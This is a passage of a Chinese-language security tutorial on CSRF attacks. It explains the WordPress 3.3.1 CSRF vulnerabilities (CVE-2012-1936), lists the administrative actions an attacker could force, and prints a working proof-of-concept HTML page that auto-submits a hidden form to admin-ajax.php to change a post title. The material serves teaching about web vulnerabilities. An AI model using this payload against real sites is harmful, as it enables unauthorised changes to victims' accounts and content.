 # Exploits

本部分我们来看几个基于 CSRF 攻击的实例，包括[简单的基于表单 POST 请求的攻击](http://www.exploit-db.com/exploits/18791/) ，其可以诱导用户点击`.submit()` 按钮既可以发起攻击。其他的还有稍微复杂一点的[跨域文件上传 CSRF 攻击](http://www.exploit-db.com/exploits/18766/) ，其主要使用了 [CORS use of the xhr.withCredentals behavior](http://blog.kotowicz.net/2011/05/cross-domain-arbitrary-file-upload.html)。

## [Wordpress 3.3.1 Multiple CSRF Vulnerabilities](https://www.exploit-db.com/exploits/18791/)

该漏洞是由[Ivano Binetti](http://www.ivanobinetti.com)在 2012 年 3 月 19 号发现的，影响了[WordPress 3.3.1 版本 ](http://wordpress.org/wordpress-3.3.1.zip)，CVE 编号 CVE-2012-1936。WordPress 是众所周知的博客平台，该漏洞可以允许攻击者修改某个 Post 的标题，添加管理权限用户以及操作用户账户，包括但不限于删除评论、修改头像等等。具体的列表如下 :

- Add Admin/User
- Delete Admin/User
- Approve comment
- Unapprove comment
- Delete comment
- Change background image
- Insert custom header image
- Change site title
- Change administrator's email
- Change Wordpress Address
- Change Site Address

那么这个漏洞实际上就是攻击者引导用户先进入目标的 WordPress，然后点击其钓鱼站点上的某个按钮，该按钮实际上是表单提交按钮，其会触发表单的提交工作，核心的 Exploit 代码为 :

```html
<html>
  <body onload="javascript:document.forms[0].submit()">
    <h2>CSRF Exploit to change post title</h2>
    <form
      method="POST"
      name="form0"
      action="http://<wordpress_ip>:80/wp-admin/admin-ajax.php"
    >
      <input type="hidden" name="post_title" value="hackedtitle" />
      <input type="hidden" name="post_name" value="hackedtitle" />
      <input type="hidden" name="mm" value="03" />
      <input type="hidden" name="jj" value="16" />
      <input type="hidden" name="aa" value="2012" />
      <input type="hidden" name="hh" value="" />
      <input type="hidden" name="mn" value="" />
      <input type="hidden" name="ss" value="" />
      <input type="hidden" name="post_author" value="1" />
      <input type="hidden" name="post_password" value="" />
      <input type="hidden" name="post_category%5B%5D" value="0" />
      <input type="hidden" name="post_category%5B%5D" value="1" />
      <input type="hidden" name="tax_input%5Bpost_tag%5D" value="" />
      <input type="hidden" name="comment_status" value="open" />
      <input type="hidden" name="ping_status" value="open" />
      <input type="hidden" name="_status" value="publish" />
      <input type="hidden" name="post_format" value="0" />
      <input type="hidden" name="_inline_edit" value="<sniffed_value>" />
      <input type="hidden" name="post_view" value="list" />
      <input type="hidden" name="screen" value="edit-post" />
      <input type="hidden" name="action" value="inline-save" />
      <input type="hidden" name="post_type" value="post" />
      <input type="hidden" name="post_ID" value="1" />
      <input type="hidden" name="edit_date" value="true" />
      <input type="hidden" name="post_status" value="all" />
    </form>
  </body>
```